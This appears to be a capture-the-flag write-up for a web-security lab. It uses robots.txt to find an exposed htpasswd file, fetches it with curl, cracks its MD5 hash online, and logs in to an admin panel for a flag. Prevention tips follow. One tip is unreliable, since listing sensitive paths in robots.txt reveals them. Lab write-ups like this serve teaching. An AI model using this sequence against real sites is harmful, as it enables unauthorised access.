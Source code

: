 If we visited robots.txt we get the following paths

```
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

Following the path whatever we get the follwing output

```
Index of /whatever/

../
htpasswd                                           29-Jun-2021 18:09                  38
```

Using curl to get the content of htpassd

```
*[main][/goinfre/mashad/projects/darkly]$ curl http://10.12.177.95/whatever/htpasswd
root:437394baff5aa33daa618be47b75cb49
*[main][/goinfre/mashad/projects/darkly]$ 
```

It's seems that its a hashed password, we going to use https://crackstation.net to try and crack the password.

Crackstation results was as bellow:

**437394baff5aa33daa618be47b75cb49 - qwerty123@ - Possible algorithms: MD5**

After digging more into hidden directories we found a login pannel for admin in the following url: http://10.12.177.95/admin/

Using curl to POST the username and password and get the flag

```
*[main][/goinfre/mashad/projects/darkly]$ curl -X POST -d "username=root&password=qwerty123@&Login=Login" http://10.12.177.95/admin/

<center><h2 style="margin-top:50px;">The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff </h2><br/><img src="../images/whoami.gif" alt=""><br /><br /><img src="../images/congratz.jpg" alt=""></center>%

*[main][/goinfre/mashad/projects/darkly]$ 
```

# Prevention
	- *Disallow Sensitive Paths:* Update your robots.txt file to disallow access to sensitive directories like /whatever and /.hidden. This will prevent search engines and web crawlers from indexing and accessing these paths.

	- *Protect Sensitive Files:* If possible, move sensitive files like htpasswd outside of the web server's public directory. This prevents direct access to such files through the web browser.

	- *Hash and Salt Passwords:* Ensure that user passwords are hashed and salted before storing them in the database. This makes it significantly harder for attackers to retrieve the original passwords even if they manage to access the hashed versions.